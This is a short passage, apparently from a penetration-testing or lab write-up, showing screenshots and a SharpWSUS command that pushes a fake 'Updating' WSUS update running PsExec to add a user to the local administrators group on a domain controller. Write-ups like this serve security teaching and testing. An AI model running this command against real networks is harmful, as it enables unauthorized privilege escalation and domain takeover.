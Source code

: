 <img src="attachments/7882a153fd75c91900a7bb99d2cff25c.png" />

Now, we approved the update.

<img src="attachments/b92ff4d0e21e9d239ee213773470049c.png" />

Now, we added this to the local administrators group on the DC.

```
cmd.exe /c 'SharpWSUS.exe create /payload:"C:\_install\PsExec64.exe" /args:"-accepteula -s -d cmd.exe  /c \"net localgroup administrators destiny /add \"" /title:"Updating"'
```
